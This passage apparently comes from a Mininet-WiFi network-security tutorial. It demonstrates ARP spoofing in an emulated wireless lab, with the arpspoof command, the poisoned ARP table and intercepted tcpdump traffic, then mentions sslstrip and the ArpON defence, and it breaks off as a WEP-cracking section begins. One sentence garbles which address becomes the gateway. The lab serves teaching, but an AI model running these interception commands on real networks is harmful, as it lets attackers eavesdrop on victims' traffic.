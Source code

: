 ```
    mininet-wifi> xterm sta2 sta2
```

Next, run _arpspoof_ on the **sta2** terminal, as follows. _If you do not have `arpspoof`, install it using the sudo apt install `dsniff` command.

```
    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

The command described above induces 10.0.0.1, which is the victim, to think that 10.0.0.2 is now its default gateway. After issuing the command, we need to wait for a few seconds, then check **sta1**'s ARP table again.

```
    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Here, we can notice that the MAC address of the default gateway is no longer the same as the one previously obtained.


Now, we will do a new _ping_ from **sta1** to 8.8.8.8 while using _tcpdump_ on the **sta2** terminal to confirm that **sta2** is receiving traffic data sent by the victim.

```
    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
    mininet-wifi> sta1 ping -c10 8.8.8.8
```

After **sta1** sends a few packets, you will be able to notice that **sta2** received them, since **sta1** was duped into perceiving **sta2** as the correct default gateway.


Now **sta2**, the attacker, can use even simple tools like _sslstrip_ to perform attacks via the HTTPS (_Hyper Text Transfer Protocol Secure_) protocol. 


It is also worth mentioning that this type of attack can be avoided by using tools such as _ArpON_ (ARP handler inspection).


#### Cracking WEP keys
Requirements: _airodump-ng_, _aircrack-ng_

First of all you need to identify the network topology that will be generated by <_extras/wep.py_>.

So, let us run <_wep.py_>:
```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/extras/wep.py
```
